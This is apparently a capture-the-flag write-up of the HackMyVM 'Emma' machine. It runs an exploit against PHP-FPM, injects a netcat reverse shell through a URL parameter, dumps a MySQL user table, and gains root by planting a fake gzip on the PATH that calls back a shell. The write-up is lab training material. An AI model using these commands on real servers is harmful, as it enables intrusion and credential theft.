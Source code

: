 ```yaml
---
layout: post
title:  "Emma - HackMyVM"
---
```

- You’ll find this vm in HackMyVM `https://hackmyvm.eu/machines/machine.php?vm=Emma`

- Difficulty : Hard

## Directory scan
{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ dirb http://10.0.2.171
  ---- Scanning URL: http://10.0.2.171/ ----
  + http://10.0.2.171/index.php (CODE:200|SIZE:0)                                                                  
  + http://10.0.2.171/phpinfo.php (CODE:200|SIZE:58765)                                                            
  + http://10.0.2.171/robots.txt (CODE:200|SIZE:15)  
{% endhighlight %}


## Robots.txt

```
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/robots.txt                                               
itwasonlyakiss
```

## Set up golang

- sudo apt-get install golang
- go get github.com/neex/phuip-fpizdam
- export PATH=$PATH:$(go env GOPATH)/bin

## Run the script

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ phuip-fpizdam http://10.0.2.171/index.php
  2021/02/07 13:48:59 Base status code is 200
  2021/02/07 13:48:59 Status code 502 for qsl=1770, adding as a candidate
  2021/02/07 13:48:59 The target is probably vulnerable. Possible QSLs: [1760 1765 1770]
  2021/02/07 13:48:59 Attack params found: --qsl 1760 --pisos 42 --skip-detect
  2021/02/07 13:48:59 Trying to set "session.auto_start=0"...
  2021/02/07 13:48:59 Detect() returned attack params: --qsl 1760 --pisos 42 --skip-detect <-- REMEMBER THIS
  2021/02/07 13:48:59 Performing attack using php.ini settings...
  2021/02/07 13:48:59 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2021/02/07 13:48:59 Trying to cleanup /tmp/a...
  2021/02/07 13:48:59 Done!
{% endhighlight %}

## Reverse shell

- curl

```sh
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/index.php?a=/bin/sh+-c+'id;nc -e /bin/sh 10.0.2.15 4444'&
```

- listener

```sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43972
/usr/bin/script -qc /bin/bash /dev/null
www-data@emma:~/html$
```

## Found emma's ssh credentials

- cat /etc/passwd

```sh
www-data@emma:~$ cat /etc/passwd
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```
- The database maybe contains important data

- MySQL root login

```sh
www-data@emma:~$ mysql -u root -pitwasonlyakiss
MariaDB [(none)]> show schemas;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+
MariaDB [(none)]> use users;
MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f****************************** |
+----+------+----------------------------------+
1 row in set (0.000 sec)
```

## Emma ssh login

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ ssh emma@10.0.2.171        
emma@10.0.2.171's password: 5f******************************

```

## Privileges Escalation

```#!/bin/sh
emma@emma:~$ sudo -l
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
emma@emma:~$ ls
flag.sh  user.txt  who  who.c
emma@emma:~$ ./who
Im
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
But now Im
uid=1000(emma) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
emma@emma:~$ stat who
  File: who
  Size: 16760           Blocks: 40         IO Block: 4096   regular file
Device: 801h/2049d      Inode: 146490      Links: 1
Access: (6750/-rwsr-s---)  Uid: (    0/    root)   Gid: ( 1000/    emma)
```

```#!/bin/sh

emma@emma:~$ cat who.c
#include <stdio.h>
#include <stdlib.h>
void main(){
setuid(0);
setgid(0);
printf("Im \n");
system("/bin/id");
setuid(1000);
setgid(1000);
printf("But now Im \n");
system("/bin/id");
}

emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
/bin/id:         59.2%
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/sh 10.0.2.15 4444" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
Im
(UNKNOWN) [10.0.2.15] 4444 (?) : Connection refused
Cannot decompress /usr/bin/id
```

- listener

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43986
id
whoami
root
ls
flag.sh
user.txt
who
who.c
cd /root
ls
flag.sh
root.txt
```
